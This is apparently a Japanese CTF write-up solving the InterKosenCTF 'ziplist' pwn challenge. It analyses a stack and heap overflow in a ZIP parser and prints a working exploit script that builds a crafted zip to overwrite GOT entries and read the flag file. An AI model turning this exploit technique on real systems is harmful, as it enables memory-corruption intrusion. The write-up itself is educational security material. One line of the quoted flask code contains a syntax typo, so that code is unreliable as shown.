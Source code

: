 // date: 2019-03-25

### はじめに

2019年の一月に、CTFチームの「NekoChanNano!」のメンバーとして[#InterKosenCTF](https://twitter.com/hashtag/InterKosenCTF) に参加させていただきました。今回は、経験少ないの私にとってかなり難しかった「ziplist」という問題(Pwn系、350点) の解き方を紹介していきたいと思います。

### 概要

チャレンジ・ページからソースコードをダウンロードすることが出来ます。手に入れる.tar.gzアーカイブファイルを解凍すれば、下記の二つのディレクトリが作られます。

`./server`、以下にflaskアプリケーションのソースコードとx86_64 ELFバイナリがあります。
`./src`、以下にx86_64 ELFバイナリのソースコード（C言語）が置いてあります。

flaskサーバーを起動し、[localhost:9300/](http://127.0.0.1:9300) をアクセスしてみましょう。

![webpage](.res/ziplist_1.png)

zipファイルをアップロード出来るようですね。バックエンドのソースコードを確認しましょう。

```python
@app.route('/', methods=['GET', 'POST'])
def home():
    result = ''
    if 'upload' in request.files:
        zipfile = request.files['upload']
        filename = zipfile.filename
        if filename != '':
            upload_filename = "/tmp/uploads/" + ''.join(
                [random.choice(string.ascii_letters) for i in range(16)]
            ) + ".zip"
            zipfile.save(upload_filename)
            result = commands.getoutput("timeout -sKILL 1s ./ziplist " + upload_filename)
            try:
                os.remove(upload_filename)
            except OSError:
                pass
    result = base64.b64encode(.result)
    return render_template('index.html', result=result)
```

ご覧通り、与えられるファイル　にランダムの名前が付けられて保存され、次に実行されるELFプログラムに引数として渡されます。
さて、ELFのソースコードの解析を始めましょう！

### ELFの解析

src/main.cのmain関数に脆弱性があります。ローカル変数のchar comment[64]がzip.cのzip_check_header()関数に渡され、zipのコメントのサイズに限らず書き込まれます。

```
char comment[64];

//...

// Check the zip structure
if (zip_check_header(fp, &footer, comment)) {
    puts("Invalid zip format.");
    return 1;
}
```

ですが、stack smashing protectionというセキュリティ機構が有効になっているため、スタック・フレームをそんな簡単に上書き出来ません。

![stack smashing protection](.res/ziplist_2.png)

セキュリティ機構について、詳しくは[こちらのページ](https://web.archive.org/web/20170306105226/http://pwn.hatenadiary.jp/entry/2015/12/05/195316)をご確認ください。

CTFの時、この機構を迂回する方法があるのがまだ知らなく、自分で気付けるまで数時間かかりましたが、実は\_\_stack_chk_fail関数のGOTポインターを上書きできるのです。そうすれば、main関数の終わりに書き込んだアドレスにジャンプするし、main関数内のRSP以降のスタック領域を好きに使えるようになります。

src/zip.cのzip_get_entries関数にもう一つの脆弱性があります。zipのfooterを読み込む前にmallocによってヒープ領域を確保します：

```
// Initialize
*entry = (CentralDirectoryFileHeader**)malloc(sizeof(CentralDirectoryFileHeader*) * footer->total_entries);
for(i = 0; i < footer->total_entries; i++) {
    (*entry)[i] = (CentralDirectoryFileHeader*)malloc(sizeof(CentralDirectoryFileHeader) - sizeof(char*));
    (*entry)[i]->filename = (char*)malloc(64);
}
```

メモリーを確保した後だけに、ZIPの中身のファイルの情報を取得して書き込むのです。

```
// Read all entries
for(i = 0; i < footer->total_entries; i++) {
    fread((*entry)[i], sizeof(CentralDirectoryFileHeader) - sizeof(char*), 1, fp);
    // Check signature
    if ((*entry)[i]->signature != MAGIC_CENTRAL_DIRECTORY_FILE_HEADER) {
        return 1;
    }
    // Read filename
    fread((*entry)[i]->filename, 1, (*entry)[i]->length_filename, fp);
    fseek(fp, (*entry)[i]->length_extra + (*entry)[i]->length_comment, SEEK_CUR);
}
```

そして上記に使用される CentralDirectoryFileHeader はこちらです：

```
typedef struct __attribute__((packed)) {
  uint32_t signature;
  uint16_t version;
  uint16_t version_needed;
  uint16_t flags;
  uint16_t compression_method;
  uint16_t modification_time;
  uint16_t modification_date;
  uint32_t crc32;
  uint32_t compressed_size;
  uint32_t uncompressed_size;
  uint16_t length_filename;
  uint16_t length_extra;
  uint16_t length_comment;
  uint16_t disk_start;
  uint16_t internal_attr;
  uint32_t external_attr;
  uint32_t header_offset;
  char *filename;
} CentralDirectoryFileHeader;
```

zipの中身にあるファイル数が２つ以上である場合、ヒープ領域がこういう形になるでしょう：

```
----------------------------------
[ Heap Frame ]                                   ---+
[ CentralDirectoryFileHeader (48 bytes) ]           |
// Including char *filename (8 bytes) at the end    |
[ Heap Frame ]                                      +-- １ファイル目
----------------------------------                  |
[ Heap Frame ]                                      |
[ File Name (64 bytes) ]                            |
[ Heap Frame ]                                   ---+
----------------------------------
[ Heap Frame ]                                   ---+
[ CentralDirectoryFileHeader (48 bytes) ]           |
// Including char *filename (8 bytes) at the end    |
[ Heap Frame ]                                      +-- ２ファイル目
----------------------------------                  |
[ Heap Frame ]                                      |
[ File Name (64 bytes) ]                            |
[ Heap Frame ]                                   ---+
----------------------------------

...
```

というわけで、第一ファイルの名前が64バイト以上であれば、その名前を保存するだめのメモリ範囲を超えてしまい、次のファイルの情報にオーバーフローします。もしその影響で次の CentralFileDirectoryHeader 仕組みの `char *filename` が上書きされるとなれば、次のファイル情報を書き込む際、新しいポインターを使用してしまい、任意書き込み脆弱性になります。

### いざエクスプロイト！

```bash
#!/bin/sh
rm -rf work/
mkdir work/
cd work/

# ASLRが有効されてるため、実行する際に標準関数system()のアドレスが毎度変わってしまうため狙えません。
# PWN_BINSH1="`python2 -c 'print "b"*126 + "\x20\x20\x60\xaa\xaa\xaa\xaa\xaa"+"c"*90+"cat \xbbhome\xbbpwn\xbbflag\xaa"'`" # freadのポインターを上書き
# PWN_BINSH2="`python2 -c 'print "\x80\x73\xe2\xf7\xff\x7f\xaa\xaa"'`" # system関数のアドレス

# 0x602030に存在するstack protectorポインターを再宣伝して、JOP gadgetに移動する。それからgadgetによって 0x400c8f にあるデータをRDIにコピーします。
PWN_STACKPROTECTOR1="`python2 -c 'print "a"*126 + "\x30\x20\x60\xaa\xaa\xaa\xaa\xaa"'`" # stack protector @ GOT
PWN_STACKPROTECTOR2="`python2 -c 'print "\x8f\x0c\x40\xaa\xaa\xaa\xaa\xaa"'`" # readfile()に存在する pop RDI -> pop ESI -> call perror

# perrorのGOTポインターを再宣言して、readfileの先頭アドレスへジャンプする。
PWN_PERROR_TO_READFILE1="`python2 -c 'print "b"*126 + "\x68\x20\x60\xaa\xaa\xaa\xaa\xaa"'`" # perror@GOT
PWN_PERROR_TO_READFILE2="`python2 -c 'print "\x53\x0c\x40\xaa\xaa\xaa\xaa\xaa"'`" # readfileの先頭アドレス

# readfile関数に渡す第一引数「data」をGOT領域に保存して置く。
PWN_STRING_AFTER_EXIT1="`python2 -c 'print "c"*126 + "\x78\x20\x60\xaa\xaa\xaa\xaa\xaa"'`" # exit@GOTの後
PWN_STRING_AFTER_EXIT2="`python2 -c 'print "\xbbhome\xbbpwn\xbbflag"'`" # readfileの第一引数

echo 'neko' > "$PWN_STACKPROTECTOR1"
echo 'chan' > "$PWN_STACKPROTECTOR2"
echo 'neko' > "$PWN_STRING_AFTER_EXIT1"
echo 'chan' > "$PWN_STRING_AFTER_EXIT2"
echo 'neko' > "$PWN_PERROR_TO_READFILE1"
echo 'chan' > "$PWN_PERROR_TO_READFILE2"
echo 'nekochannano' > nekochannano

# main関数のローカル変数 char *comment[64] に書き込まれるZIPコメントにGOT領域に保存して置いた文字列のポインターを入れて置きます。
python2 -c 'print "難し過ぎるわ" + "ABCDEFGHIJKLMNOPQRSTUVWXYZ"*2 + "AB\x78\x20\x60\xaa\xaa\xaa\xaa\xaaA"' | zip -z winners.zip \
"$PWN_STACKPROTECTOR1" \
"$PWN_STACKPROTECTOR2" \
"$PWN_PERROR_TO_READFILE1" \
"$PWN_PERROR_TO_READFILE2" \
"$PWN_STRING_AFTER_EXIT1" \
"$PWN_STRING_AFTER_EXIT2" \
nekochannano \‌

# sedでzipコマンドで使えないヌール文字を変換します。
sed -i -s 's/\xaa/\x00/g' winners.zip
sed -i -s 's/\xbb/\//g' winners.zip
```

### 結果

最後に、生成したzipアーカイブをウェブサーバーにアップロードすると、、！

![response](.res/ziplist_3.png)

![flag.png](.res/ziplist_4.png)

以上 [#InterKosenCTF](https://twitter.com/hashtag/InterKosenCTF) の Pwn問題「ziplist」の解答方法でした。
